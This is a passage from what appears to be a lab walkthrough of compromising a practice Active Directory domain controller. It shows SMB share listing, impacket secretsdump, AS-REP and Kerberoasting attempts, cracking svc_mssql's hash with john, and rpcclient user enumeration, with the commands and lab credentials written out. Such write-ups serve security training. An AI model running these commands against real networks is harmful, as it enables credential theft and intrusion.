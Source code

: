 Until we eventually get to smb (`smbclient -L \\\\192.168.171.21\\ -U fiona.clark`), which probably would have come sooner, but it would be nice to get RCE faster with one of the others. We **are** able to list the smb shares and eventually check them out. 
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

The first 3 are defaults, and it actually seems as though NETLOGON contains the same files as SYSVOL/scripts, so either way it's a ResetPassword directory which we can download and analyze. 

![Nagoya3.png](/assets/images/Nagoya/Nagoya3.png){: .center-aligned width="600px"}

I checked through each of these files but couldn't find anything either by reading them directly or runnings `strings` on them. *Apparently you can run a tool called dnSpy on them, but it appears this is not available for ARM machines.* 

Apparently I needed to try a few other options with impacket. 
- `impacket-secretsdump nagoya-industries.com/fiona.clark:'Summer2023' -dc-ip 192.168.171.21`
	- Nothing
- `impacket-GetNPUsers nagoya-industries.com/fiona.clark:'Summer2023' -dc-ip 192.168.171.21`
	- Nothing
- `impacket-GetUserSPNs nagoya-industries.com/fiona.clark:'Summer2023' -dc-ip 192.168.171.21`
	- Bingo

We then use `john --wordlist=/usr/share/wordlists/rockyou.txt userSPNs.txt` and we get the password of `Service1` for the password of `svc_mssql`. 

Time to run it back and check all the same commands again. After a few of those we come back to rpcclient, and we actually can use it. That gives us the option to run `enumdomusers`, and we get this: 
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc_helpdesk] rid:[0x450]
user:[Matthew.Harrison] rid:[0x452]
user:[Emma.Miah] rid:[0x453]
user:[Rebecca.Bell] rid:[0x454]
user:[Scott.Gardner] rid:[0x455]
user:[Terry.Edwards] rid:[0x456]
user:[Holly.Matthews] rid:[0x457]
user:[Anne.Jenkins] rid:[0x458]
user:[Brett.Naylor] rid:[0x459]
```